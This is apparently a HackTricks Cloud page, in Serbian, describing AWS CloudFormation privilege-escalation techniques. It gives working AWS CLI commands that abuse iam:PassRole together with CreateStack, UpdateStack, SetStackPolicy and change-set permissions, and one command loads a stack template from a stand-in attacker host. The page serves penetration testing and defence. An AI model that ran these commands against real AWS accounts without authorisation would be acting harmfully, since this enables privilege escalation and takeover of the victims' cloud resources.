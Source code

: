 # AWS - Cloudformation Privesc

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## cloudformation

Za više informacija o cloudformation-u pogledajte:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Napadač sa ovim dozvolama **može povećati privilegije** kreiranjem **CloudFormation stack-a** sa prilagođenim šablonom, smeštenim na njihovom serveru, da **izvrši akcije pod dozvolama određene uloge:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na sledećoj stranici imate **primer eksploatacije** sa dodatnim dozvolama **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potencijalni uticaj:** Povećanje privilegija na određenu ulogu usluge cloudformation.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

U ovom slučaju možete **zloupotrebiti postojeći cloudformation stack** kako biste ga ažurirali i povećali privilegije kao u prethodnom scenariju:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Dozvola `cloudformation:SetStackPolicy` može se koristiti da **sebi dodelite dozvolu `UpdateStack`** nad stekom i izvršite napad.

**Potencijalni uticaj:** Privesc na određenu ulogu usluge cloudformation.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Ako imate ovu dozvolu, ali **nemate `iam:PassRole`**, i dalje možete **ažurirati korišćene stekove** i zloupotrebiti **IAM uloge koje su već pridružene**. Pogledajte prethodni odeljak za primer eksploatacije (samo nemojte navesti ulogu pri ažuriranju).

Dozvola `cloudformation:SetStackPolicy` može se koristiti da **sebi dodelite dozvolu `UpdateStack`** nad stekom i izvršite napad.

**Potencijalni uticaj:** Privesc na ulogu usluge cloudformation koja je već pridružena.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Napadač sa dozvolom da **prosledi ulogu i kreira i izvrši ChangeSet** može **kreirati/ažurirati novi stek cloudformationa i zloupotrebiti uloge usluge cloudformationa** kao i sa CreateStack ili UpdateStack.

Sledeći napad je **varijacija**[ **CreateStack napada**](./#iam-passrole-cloudformation-createstack) koristeći **dozvole za ChangeSet** za kreiranje steka.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Dozvola `cloudformation:SetStackPolicy` može se koristiti da **sebi dodelite dozvole za `ChangeSet`** nad stack-om i izvršite napad.

**Potencijalni uticaj:** Privesc na uloge usluge cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ovo je slična metoda kao prethodna, ali bez prosleđivanja **IAM uloga**, tako da možete samo **zloupotrebiti već pridružene uloge**, samo izmenite parametar:
```
--change-set-type UPDATE
```
**Potencijalni uticaj:** Privesc na ulogu usluge CloudFormation koja je već pridružena.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Napadač bi mogao iskoristiti ove dozvole da bi kreirao/ažurirao StackSet-ove kako bi zloupotrebio/arbitrirao uloge CloudFormation-a.

**Potencijalni uticaj:** Privesc na uloge usluge CloudFormation.

### `cloudformation:UpdateStackSet`

Napadač bi mogao iskoristiti ovu dozvolu bez dozvole passRole da bi ažurirao StackSet-ove kako bi zloupotrebio pridružene uloge CloudFormation-a.

**Potencijalni uticaj:** Privesc na pridružene uloge CloudFormation-a.

## Reference

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
